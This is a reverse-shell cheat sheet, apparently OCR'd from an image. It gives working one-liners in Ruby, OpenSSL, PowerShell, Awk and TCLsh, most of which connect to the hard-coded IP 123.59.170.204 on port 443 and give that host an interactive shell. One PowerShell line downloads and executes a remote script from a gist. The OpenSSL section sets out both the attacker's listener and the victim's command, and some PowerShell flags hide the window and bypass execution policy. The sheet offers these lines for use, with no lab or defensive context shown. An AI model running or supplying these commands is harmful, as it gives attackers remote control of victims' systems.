 Ruby:
ruby -rsocket -e'f=TCPSocket.open("123.59.170.204",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
------------------------
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("123.59.170.204","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
------------------------
NOTE: Windows only
ruby -rsocket -e 'c=TCPSocket.new("123.59.170.204","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
------------------------

OpenSSL:
Attacker:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
------------------------
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
------------------------ or
ncat --ssl -vv -l -p 443
------------------------ Victim:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 123.59.170.204:443 > /tmp/s; rm /tmp/s
------------------------

Powershell:
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("123.59.170.204",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
------------------------
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('123.59.170.204',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
------------------------
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
------------------------

Awk:
awk 'BEGIN {s = "/inet/tcp/0/123.59.170.204/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
------------------------

TCLsh
echo 'set s [socket 123.59.170.204 443];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
------------------------
